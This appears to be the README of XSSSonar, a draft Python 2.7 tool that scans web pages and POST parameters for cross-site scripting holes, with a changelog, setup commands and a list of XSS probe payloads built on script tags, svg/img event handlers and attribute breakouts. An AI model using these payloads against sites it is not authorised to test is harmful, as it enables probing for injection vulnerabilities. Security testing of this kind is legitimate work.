 # XSSSonar

Little tool to look for XSS vulnerabilities in a web page.

![XSS Sonar Screenshot](xsssonar.png)

## Info

This code is just a draft. There are some errors still to be corrected, and sometimes false positives occur.<br/>
Test with Python 2.7.9 on Debian Jessie. I'll write it for Python 3.x maybe.<br/>

## ChangeLog

<strong>0.1.5a</strong><br/>
[-] Fixed some bugs<br/>
[-] Less than 400 lines of code<br/>
<br/>
<strong>0.1.5</strong><br/>
[-] Added scan on POST parameters<br/>
[-] Changed name<br/>
<br/>
<strong>0.1.4a</strong><br/>
[-] Added stopwatch to know the time spent to check each URL<br/>
[-] Same features with 1500 lines of code missing<br/>
<br/>
<strong>0.1.4</strong><br/>
[-] Check a single URL or a list.txt of sites

## List of XSS Payloads

    '">"'><img src=x onerror=confirm`XSS`>
    "> <script>alert`XSS`</script>
    '">"'><svg onload=confirm`XSS`>
    "',;</script><script>confirm`XSS`</script>
    '><svg onload=confirm`XSS`>
    "><svg/onload=confirm`XSS`//
    "><details/open/ontoggle=confirm`XSS`>
    " onfocus="confirm`XSS`" autofocus=""
    " onclick="confirm`XSS`"
    " onmouseover="confirm`XSS`"
    \"-confirm`XSS`//
    \'-confirm`XSS`//
    "-confirm`XSS`-"'-confirm`XSS`-'

## To start

pip install fake-useragent<br/>
python xsssonar.py
